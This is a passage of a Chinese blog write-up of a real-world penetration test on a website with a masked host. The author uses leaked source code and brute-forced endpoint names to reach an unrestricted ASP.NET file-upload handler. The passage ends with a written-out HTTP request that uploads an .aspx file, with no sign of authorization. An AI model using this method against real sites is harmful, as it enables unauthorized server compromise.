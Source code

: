 # 原创
：  实战之一次文件上传、两个站点！

# 实战之一次文件上传、两个站点！

**目录**

[站点1：文件上传](#toc-0)

[站点2：文件上传](#toc-1)

---


> 
如果文章对你有帮助，欢迎**关注、点赞、收藏**一键三连支持以下哦！
想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步


### 站点1：文件上传

发现源代码泄露

打开自己珍藏已久的辣鸡字典，扫描发现存在bin.zip信息泄露，尝试进行代码审计<br/> 文件位置：SimpleDataPlatform.SimpleDataPlatform.fileUpload

找到ProccessRequest接收请求，可以看到获取了一堆参数后（初始化），后进入了HandleFiles方法

 跟进HandleFiles进行处理，如果dateType=ZBJHSB时，就继续处理请求，dateType为GET传参

路径为/Uploads/SetData/ZBJHSB，str名称为时间戳，且str2(后缀)没有进行限制就进行保存 

OK，这应该是一个妥妥的任意文件上传了，只要有返回值，那么这个站就没了。但是很不凑巧的是，他没有返回值。<br/> 由于方法fileUpload，瞎猜文件名为

```
fileUpload.aspx
fileUpload.ashx
fileUpload.asmx
fileUploads.aspx
fileUploads.asmx
fileUploads.ashx
Upload.....等
```

加上自己现有的字典爆破了一波,成功找到了返回了200的文件名[http://xxx.com:6039/FileUploads.ashx](http://xxx.com:6039/FileUploads.ashx)

直接构造上传表单，这里Form里的name字段应该是没有具体设置的（代码里没有找到），发包后返回200，可能真的传上去了吧？

```
POST /FileUploads.ashx?DataType=ZBJHSB HTTP/1.1
Host: xxx.cn:6039
Content-Length: 195
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySVkAJfiOUeRxhsu8
Accept: */*
Connection: close

------WebKitFormBoundarySVkAJfiOUeRxhsu8
Content-Disposition: form-data; name="File"; filename="1.aspx"
Content-Type: image/jpeg

11111111111
------WebKitFormBoundarySVkAJfiOUeRxhsu8--
```
